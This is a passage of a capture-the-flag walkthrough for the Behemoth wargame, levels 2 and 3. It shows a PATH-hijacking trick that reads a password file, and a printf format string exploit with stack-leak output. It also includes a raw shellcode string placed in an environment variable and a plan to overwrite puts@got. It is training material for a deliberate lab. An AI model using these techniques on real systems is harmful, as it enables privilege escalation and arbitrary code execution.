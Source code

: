 
It looks like touch is being called without an absolute path, so we can take advantage of that. First we'll create our own touch script that prints out the contents /etc/behemoth_pass/behemoth3. Next, the PATH variable needs to be updated so that it looks at the current working directory first to ensure that our touch script is executed and not the actual touch program. 

Running behemoth2 now tricks it into running our touch script which gives us the password: 

```
behemoth2@melinda:/tmp/koji$ /behemoth/behemoth2 
n■■■■■■■■l
```

## Level 3

behemoth3 prompts us to enter our name and then prints a welcome message. There's no buffer overflow here, but if we step through it in gdb we see that the last call to printf() is vulnerable to a format string attack:

```
[-------------------------------------code-------------------------------------]
   0x80484b9 <main+60>: call   0x8048330 <printf@plt>
   0x80484be <main+65>: lea    eax,[esp+0x18]
   0x80484c2 <main+69>: mov    DWORD PTR [esp],eax
=> 0x80484c5 <main+72>: call   0x8048330 <printf@plt>
   0x80484ca <main+77>: mov    DWORD PTR [esp],0x804858e
   0x80484d1 <main+84>: call   0x8048350 <puts@plt>
   0x80484d6 <main+89>: mov    eax,0x0
   0x80484db <main+94>: leave
Guessed arguments:
arg[0]: 0xbffff2e8 ("AAAABBBB\n")
``` 

There is no format string passed to printf(), so let's see what happens when we pass our own:

```
behemoth3@melinda:~$ /behemoth/behemoth3 
Identify yourself: AAAABBBB.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Welcome, AAAABBBB.c8.f7fcac20.f7ff2eb6.2.f7ffd000.41414141.42424242.2e78252e.252e7825.78252e78.2e78252e
```

We're leaking data off the stack now, and our format string starts off at offset 6. From the disassembly in gdb, puts() is the next function called, so we'll overwrite puts@got and point it to our shellcode. Let's start by storing some shellcode in an environment variable:

```
behemoth3@melinda:/tmp/koji$ export W00T=`python -c 'print "\xeb\x19\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x0a\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x54\x72\x79\x20\x68\x61\x72\x64\x65\x72"'`
behemoth3@melinda:/tmp/koji$ ./getenvaddr W00T /behemoth/behemoth3 
W00T will be at 0xffffdef1
```

We can now overwrite puts@got with the address of our shellcode. In order to send our payload to the binary in gdb, we'll use a python script to write it into a file, and then redirect the contents of that file into the binary within gdb. Here's the python script: 
